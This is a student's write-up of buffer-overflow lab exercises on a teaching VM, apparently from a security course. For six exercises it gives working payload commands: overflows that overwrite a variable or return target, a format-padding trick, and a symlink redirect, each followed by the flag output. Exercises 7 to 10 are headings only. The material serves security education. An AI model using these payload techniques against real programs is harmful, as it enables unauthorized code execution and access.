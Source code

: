 ```html
<div style="page-break-after: always;"></div>
```

###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1025 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

<div style="page-break-after: always;"></div>

###### Exercise 4

> [!exercise]+ Exercise 4
> Go to /home/q4/. Exploit the program to get the secret.
> 
> **Answer:**
> Quite similar to the last question, except our input can only be less than 100 characters. Because `sprintf` is used instead of `strcpy`, we can get around this limitation by padding the input inside this function, rather than through python.
> 
> ```
> "%01024d"
>```
>
>Then we just need to find the address of the `secret` through GDB.
>```
>(gdb) print secret
$1 = {void ()} 0x565561fd \<secret>
>```
>Converting the address to little endian in hexadecimal and combining it all together, we get:
>
>```
>student@hacklabvm:/home/q4$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"%01024d" + b"\xfd\x61\x55\x56")')
>Jumping to function at 0x565561fd!!
> _________________________________________
>/ csf2024s1_{similarities-waftage-pockhou \
>\ se}                                     /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>
###### Exercise 5

> [!exercise]+ Exercise 5
> Go to /home/q5/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is straightforward - since we don't have permissions to create a file inside `/q5`, we can create a `symlink` to the `secret` file from `secet` contained in `~` and run the script inside `~`.
> 
> ```
> student@hacklabvm:~$ ln -s /home/q5/secret ./secet
student@hacklabvm:~$ ls -l
lrwxrwxrwx  1 student student   15 Mar 28 03:58 secet -> /home/q5/secret
> ...
>```
>
>```
>student@hacklabvm:~$ ../q5/run_me
> _________________________________________
>/ csf2024s1_{phalangitic-utfangethef-cano \
>\ nicate}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 6

> [!exercise]+ Exercise 6
> Go to /home/q6/. Exploit the program to get the secret.
> 
> **Answer:**
> Another straightforward one. We need to once again cause a buffer overflow and overwrite the `flag` variable with `0xdeadbeef`. To do this, add the hex code as an environment variable to `Q6_SECRET_CODE` padded with prepended junk data. We can use `export` for this. 
> 
> ```
> export Q6_SECRET_CODE=$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xef\xbe\xad\xde")')
>```
>
>Then we simply execute the program.
>
>```
>student@hacklabvm:/home/q6$ ./run_me
> _________________________________________
>/ csf2024s1_{linkages-lunchtime-bepillare \
>\ d}                                      /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>student@hacklabvm:/home/q6$ 
>```


<div style="page-break-after: always;"></div>

###### Exercise 7

<div style="page-break-after: always;"></div>

###### Exercise 8

<div style="page-break-after: always;"></div>

###### Exercise 9

<div style="page-break-after: always;"></div>

###### Exercise 10







